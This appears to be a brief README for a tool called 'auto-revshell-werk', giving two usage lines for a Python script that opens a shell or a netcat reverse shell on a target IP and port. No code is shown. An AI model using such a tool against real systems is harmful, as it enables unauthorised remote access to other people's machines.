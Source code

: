 # auto-revshell-werk
USAGE: python3 .\w2r.py <ip> <port> to use shell
USAGE: python3 .\w2r.py <ip> <port> <your ip> <netcat port> to use revshell
